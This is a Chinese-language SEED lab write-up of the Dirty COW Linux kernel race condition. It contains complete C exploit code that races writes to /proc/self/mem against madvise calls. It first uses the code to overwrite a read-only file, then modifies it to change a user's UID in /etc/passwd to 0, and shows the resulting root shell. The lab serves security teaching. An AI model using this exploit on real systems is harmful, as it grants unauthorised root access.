










# Dirty COW Attack

> Dirty COW漏洞是竞争条件漏洞的一个有趣案例。它自2007年9月就存在于Linux内核中，并于2016年10月被发现和利用。该漏洞影响所有基于linux的操作系统，包括Android，其后果非常严重:攻击者可以利用该漏洞获得root权限。漏洞存在于Linux内核中的“写时复制”代码中。通过利用这个漏洞，攻击者可以修改任何受保护的文件，即使这些文件只有他们可以读。
>
> 本实验的目的是获得Dirty COW攻击的实际操作经验，了解该攻击所利用的竞争条件漏洞，并对一般的竞争条件安全问题有更深入的了解。本实验将利用Dirty COW竞争条件的脆弱性来获得root特权。

> 注意:本实验室是基于SEEDUbuntu12.04 VM的。如果您当前使用的是较新的Linux版本，例如Ubuntu16.04，则此漏洞已经被修补。

本文作者：[对酒当歌](https://blog.csdn.net/youyouwoxi)

## Task 1: 修改只读文件

### 1建立一个只读文件

> 首先，选择一个目标文件。虽然目标文件可使系统内任一的可读文件，可是为了防止实验过程可能出现的错误影响系统的安全，咱们将使用一个本身建立的只读文件。请在root目录下建立一个为`zzz`的文件，修改其对普通用户的权限为只读，而后利用编辑器例如`gedit`随意输入一些内容。

```bash
sudo touch /zzz
sudo chmod 644 /zzz
sudo gedit /zzz

111111222222333333
```





```bash
cat /zzz
111111222222333333

ls -l /zzz
-rw-r--r-- 1 root root 19 Oct 18 22:03 /zzz
```



```bash
echo 99999 > /zzz
bash: /zzz: Permission denied
```




> 从上面的实验中咱们能够看到，一个普通权限的用户若是想要对一个只读文件进行写操做的话会操做失败，由于对于普通权限用户，该文件仅仅是可读。然而，由于Dirty-COW在系统中的漏洞，咱们能够找到方法来对该文件进行写入。咱们的目标是把目标模式串”222222”用“`**`”进行替换。bash

### 2 设置内存映射线程

> 从实验的网站下载程序`attack.c`。 该程序拥有三个线程：主线程，写线程，madvise线程（ `madvise()`这个函数能够对映射的内存提出使用建议，从而提升内存。）。主线程的做用是把/zzz文件映射到内存中，而且定位到目标模式`222222`处，而后建立了两个新的线程来利用Dirty-COW竞争条件漏洞。

```c
#include <sys/mman.h>
#include <fcntl.h>
#include <pthread.h>
#include <sys/stat.h>
#include <string.h>

void *map;
void *writeThread(void *arg);
void *madviseThread(void *arg);

int main(int argc, char *argv[])
{
  pthread_t pth1, pth2;
  struct stat st;
  int file_size;

  // Open the target file in the read-only mode.
  int f = open("/zzz", O_RDONLY);

  // Map the file to COW memory using MAP_PRIVATE.
  fstat(f, &st);
  file_size = st.st_size;
  map = mmap(NULL, file_size, PROT_READ, MAP_PRIVATE, f, 0);

  // Find the position of the target area
  char *position = strstr(map, "222222");

  // We have to do the attack using two threads.
  pthread_create(&pth1, NULL, madviseThread, (void *)file_size);
  pthread_create(&pth2, NULL, writeThread, position);

  // Wait for the threads to finish.
  pthread_join(pth1, NULL);
  pthread_join(pth2, NULL);
  return 0;
}

void *writeThread(void *arg)
{
  char *content = "******";
  off_t offset = (off_t)arg;

  int f = open("/proc/self/mem", O_RDWR);
  while (1)
  {
    // Move the file pointer to the corresponding position.
    lseek(f, offset, SEEK_SET);
    // Write to the memory.
    write(f, content, strlen(content));
  }
}

void *madviseThread(void *arg)
{
  int file_size = (int)arg;
  while (1)
  {
    madvise(map, file_size, MADV_DONTNEED);
  }
}
```


> 在上面的代码中，我们需要找到模式“222222”的位置。我们使用一个名为`strstr()`的字符串函数来查找“`222222`”在映射内存中的位置(`  char *position = strstr(map, "222222");`26行)。然后我们启动两个线程:madviseThread (`pthread_create(&pth1, NULL, madviseThread, (void *)file_size);`29行)和writeThread (`pthread_create(&pth2, NULL, writeThread, position);`30行)

### 3write线程

> 下面列出的写入线程的工作是将内存中的字符串"`222222`"替换为"`******`"。由于映射内存是 COW 类型，因此仅此线程只能修改映射内存副本中的内容，这不会导致对基础 /zzz 文件进行任何更改。

```c
void *writeThread(void *arg)
{
  char *content = "******";
  off_t offset = (off_t)arg;

  int f = open("/proc/self/mem", O_RDWR);
  while (1)
  {
    // Move the file pointer to the corresponding position.
    lseek(f, offset, SEEK_SET);
    // Write to the memory.
    write(f, content, strlen(content));
  }
}
```

### 4madvise线程

> madvise 线程只做一件事：丢弃映射内存的私有副本，以便页表可以指向原始映射内存。

```c
void *madviseThread(void *arg)
{
  int file_size = (int)arg;
  while (1)
  {
    madvise(map, file_size, MADV_DONTNEED);
  }
}
```

### 5发起攻击

如果以替代方式调用 `write()` 和 `madvise()`系统调用，即仅在另一个调用完成后调用一个，则写入操作将始终在私有副本上执行，并且我们将永远无法修改目标文件。攻击成功的唯一方法是在 `write()` 系统调用仍在运行时执行 `madvise() `系统调用。我们不能总是做到这一点，所以我们需要尝试很多次。只要概率不是极低，我们就有机会。这就是为什么在线程中，我们在无限循环中运行两个系统调用。编译cow_attack.c并运行几秒钟。如果攻击成功，您应该能够看到修改后的 /`zzz `文件。

```bash
gcc cow_attack.c -lpthread
./a.out
... press Ctrl-C after a few seconds ...

cat /zzz
```



## Task 2: 修改口令文件来获取Root权限

> 现在，让我们对真实的系统文件发起攻击，以便获得`root`权限。我们选择 `/etc/passwd` 文件作为目标文件。此文件是全局可读的，但非 `root `用户无法修改它。
> 该文件包含用户帐户信息，每个用户一条记录。假设我们的用户名是 `seed` 。以下行显示`root`和`seed`的记录：

```bash
root:x:0:0:root:/root:/bin/bash
seed:x:1000:1000:Seed,123,,:/home/seed:/bin/bash
```

> 上述记录中的每条都包含七个以冒号分隔的字段。我们关注的是第三个字段，该字段指定分配给用户的用户 ID （UID） 值。UID 是 Linux 中访问控制的主要基础，因此此值对安全性至关重要。root用户的 UID 字段包含一个特殊值 0;这就是使它成为超级用户的原因，而不是它的名字。任何 UID 为 0 的用户都会被系统视为 root 用户，无论他或她拥有什么用户名。种子用户的 ID 只有 1000，因此它没有 root 权限。但是，如果我们可以将值更改为 0，则可以将其转换为root。我们将利用 Dirty COW 漏洞来实现此目标。

> 在我们的实验中，我们不会使用`seed`帐户，因为该帐户用于大多实验了；如果我们在实验后忘记将UID改回来，其他实验也会受到影响。相反，我们创建了一个名为`charlie`的新帐户，我们将使用Dirty COW攻击将此普通用户转变为root用户。可以使用 adduser 命令添加新帐户。创建帐户后，将向` /etc/passwd `添加新记录。请参阅以下内容：

```bash
sudo adduser charlie
...
cat /etc/passwd | grep charlie
charlie:x:1001:1001:,,,:/home/charlie:/bin/bash
```

> 建议您保存 `/etc/passwd `文件的副本，以防万一您犯了错误并损坏了此文件。另一种方法是在处理此实验室之前**拍摄 VM 的快照**，以便在 VM 损坏时始终可以回滚。



### 创建账户

```bash
sudo adduser charlie
```



查看

```bash
cat /etc/passwd | grep charlie
```



> 任务：您需要修改 `/etc/passwd `中的 `charlie` 条目，因此第三个字段从 1001 更改为 0000，实质上将 `charlie `变成了一个 `root `帐户。该文件对 Charlie 来说是不可写的，但是我们可以使用 Dirty COW 攻击来写入此文件。您可以从任务 1 修改 `cow_attack.c `程序来实现此目标。

### 修改程序

```c
  // Open the target file in the read-only mode.
  int f = open("/etc/passwd", O_RDONLY); //line 18
...
  // Find the position of the target area
  char *position = strstr(map, "charlie:x:1001");  //line 26
...
void *writeThread(void *arg)
{
  char *content = "charlie:x:0000";  //line 40
  off_t offset = (off_t)arg;

...
```

### 编译执行

```
gcc cow_attack.c -lpthread
./a.out
```



> 攻击成功后，如果将用户切换到 `charlie`，您应该能够在 shell 提示符下看到 `#` 符号，这是root shell 的指示符。如果运行 id 命令，您应该能够看到您已经获得了 root 特权。

```bash
seed@ubuntu$ su charlie
Passwd: seedubuntu
root@ubuntu# id
uid=0(root) gid=1001(charlie) groups=0(root),1001(charlie)
```



可知，攻击成功。